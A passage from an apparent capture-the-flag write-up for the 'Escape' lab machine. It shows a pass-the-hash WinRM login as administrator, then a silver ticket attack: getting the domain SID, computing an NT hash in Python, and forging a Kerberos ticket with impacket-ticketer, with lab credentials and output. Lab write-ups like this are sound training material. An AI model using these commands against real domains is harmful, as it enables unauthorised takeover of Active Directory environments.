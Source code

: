 ```bash
$ evil-winrm -i escape -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
```

## Miscellaneous

### Silver Ticket Attack

Since we got the password of the service account `SQL_SVC`, we can mint a service-granting ticket for a non-existing SPN using the password hash as in a [silver ticket attack](../../windows/credential-access/kerberos-ticket/golden-silver-ticket-attack.md).

First, we need the domain SID, in our case `S-1-5-21-4078382237-1492182817-2568127209`:

```bash
$ evil-winrm -u sql_svc -i escape -p REGGIE1234ronnie
...
*Evil-WinRM* PS C:\Users\sql_svc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
sequel\sql_svc S-1-5-21-4078382237-1492182817-2568127209-1106
...
```

We also need the NT-hash `1443ec19da4dac4ffc953bca1b57b4cf`:

```python
from Cryptodome.Hash import MD4
from binascii import hexlify

password = 'REGGIE1234ronnie'
hash = MD4.new()
hash.update(password.encode('utf_16le'))
print(hexlify(hash.digest()).upper())
```

We can mint the TGS for the user `Administrator` using Impacket's `ticketer` with a non-existing SPN without touching the DC now.

{% code overflow="wrap" %}
```bash
$ impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip escape -spn MSSQL/DC.SEQUEL.HTB Administrator
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
```
